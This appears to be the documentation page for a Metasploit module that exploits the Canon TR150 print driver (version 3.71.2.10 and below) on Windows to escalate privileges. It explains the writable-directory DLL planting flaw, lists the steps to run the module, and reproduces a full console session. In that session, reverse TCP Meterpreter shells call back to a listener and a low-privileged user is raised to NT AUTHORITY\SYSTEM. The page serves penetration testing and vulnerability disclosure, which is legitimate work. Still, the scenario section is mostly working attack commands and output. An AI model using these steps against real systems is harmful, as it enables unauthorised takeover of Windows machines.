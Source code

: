 ## Vulnerable Application

The Canon TR150 print driver version 3.71.2.10 and
below allow escalation of privileges on Windows systems.

For vulnerable drivers, a low-privileged user can
read/write files within the `CanonBJ` directory
and its subdirectories.

`PrintIsolationHost.exe`, a Windows process running
as NT AUTHORITY\SYSTEM, loads driver-specific DLLs
during the installation of a printer. A user can
elevate to SYSTEM by writing a malicious DLL to
the vulnerable driver directory and adding a new
printer with a vulnerable driver.

This module leverages the `prnmngr.vbs` script
to add and delete printers. Multiple runs of this
module may be required given successful exploitation
is time-sensitive.

## Verification Steps

1. Install a vulnerable Canon TR150 driver
2. Start msfconsole
3. Get a session with basic privileges
4. Do: `use exploit/windows/local/canon_driver_privesc`
5. Do: `set SESSION <sess_no>`
6. Do: `run`
7. You should get a shell running as SYSTEM.

## Scenarios

### Tested with Canon TR150 series `v3.71.2.10`

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.0.0.8
lhost => 10.0.0.8
msf6 exploit(multi/handler) > set lport 1270
lport => 1270
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.0.8:1270 
[*] Sending stage (200262 bytes) to 10.0.0.7
[*] Meterpreter session 1 opened (10.0.0.8:1270 -> 10.0.0.7:49816) at 2021-08-05 11:14:25 -0400

meterpreter > getuid
Server username: MOURNLAND\lowlevel
meterpreter > sysinfo
Computer        : MOURNLAND
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/canon_driver_privesc
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/canon_driver_privesc) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/canon_driver_privesc) > set lhost 10.0.0.8
lhost => 10.0.0.8
msf6 exploit(windows/local/canon_driver_privesc) > set session 1
session => 1
msf6 exploit(windows/local/canon_driver_privesc) > run

[*] Started reverse TCP handler on 10.0.0.8:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Canon driver directory has full permissions
[*] Dropping bat to C:\Users\lowlevel\AppData\Local\Temp\YoBndh.bat
[*] Adding printer ePzTcgz...
[*] Sending stage (200262 bytes) to 10.0.0.7
[+] Deleted C:\Users\lowlevel\AppData\Local\Temp\YoBndh.bat
[+] Deleted C:\Users\lowlevel\AppData\Local\Temp\CNMurGE.dll
[*] Meterpreter session 2 opened (10.0.0.8:4444 -> 10.0.0.7:49819) at 2021-08-05 11:15:31 -0400
[*] Deleting printer ePzTcgz

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : MOURNLAND
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > quit
[*] Shutting down Meterpreter...
```

## Options

